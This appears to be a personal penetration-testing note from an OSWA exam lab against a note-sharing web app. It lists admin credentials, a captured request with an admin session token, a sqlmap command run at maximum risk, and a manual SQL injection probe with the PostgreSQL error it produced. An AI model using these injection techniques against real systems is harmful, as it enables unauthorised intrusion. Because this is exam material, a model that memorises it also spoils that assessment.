 # Start here
starting page after logging in with `administrator:adminxss`
- able to `delete` or `approve` notes
![[ss-20250919-OSWA-Exam-ShareNotez-local.txt-pic26.png]]
also able to `lock` or look at notes of `users`
![[ss-20250919-OSWA-Exam-ShareNotez-local.txt-pic27.png]]
## Deleting Users
burp request of deleting users
![[ss-20250919-OSWA-Exam-ShareNotez-local.txt-pic28.png]]
post request for `sql`
```bash
POST /api/admin/note/delete?noteId=e23ff7e1-0925-420c-aa9f-e562f81e63bc HTTP/1.1
Host: 192.168.62.62:8443
Cookie: sessionToken=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJsb3Bob3N0cml4IiwiaXNBZG1pbiI6InRydWUiLCJleHAiOjE3NTgzMjkyOTYsInVzZXJJZCI6IjM5YmNjMDEwLTE5NWEtNGM0Mi1hNmM4LWE2YmRjYjI0NmU5YyIsInVzZXJuYW1lIjoiYWRtaW5pc3RyYXRvciJ9.855q7o-lOgqbTCApebC5kqyXuOluRC5OIDMo5MLZ2uU
Content-Length: 0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not=A?Brand";v="24", "Chromium";v="140"
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: */*
Origin: http://192.168.62.62
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Sec-Fetch-Storage-Access: active
Referer: http://192.168.62.62/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive
```
## Approving Users
burp request of approving users
![[ss-20250919-OSWA-Exam-ShareNotez-local.txt-pic29.png]]
## Locking Users
locking out`jen7` user
![[ss-20250919-OSWA-Exam-ShareNotez-local.txt-pic30.png]]
unlocking user 
![[ss-20250919-OSWA-Exam-ShareNotez-local.txt-pic31.png]]

## Viewing Notes
burp of `viewing` notes
![[ss-20250919-OSWA-Exam-ShareNotez-local.txt-pic32.png]]

# SQL Testing
testing all post requests above

don't believe `sqlmap`will work, but can specify db now with is `postgresql`
```bash
sqlmap -r delete_post.txt --batch --risk=3 --level=5
```
got an `sql` error when utilizing `''` two backticks
![[ss-20250919-OSWA-Exam-ShareNotez-local.txt-PSQL-identification-pic33.png]]

```bash
'''-SELECT+current_user
```

![[ss-20250919-OSWA-Exam-ShareNotez-local.txt-pic34.png]]
error i am receiving
![[ss-20250919-OSWA-Exam-ShareNotez-local.txt-pic35.png]]

```bash
{"status": "error", "message":"An error occurred. StatementCallback; bad SQL grammar [DELETE FROM notes WHERE id = '--b079a6c0-fcd2-43b1-8feb-2147fac1eb0e'''-SELECT current_user';]; nested exception is org.postgresql.util.PSQLException: Unterminated string literal started at position 91 in SQL DELETE FROM notes WHERE id = '--b079a6c0-fcd2-43b1-8feb-2147fac1eb0e'''-SELECT current_user';. Expected  char"}
```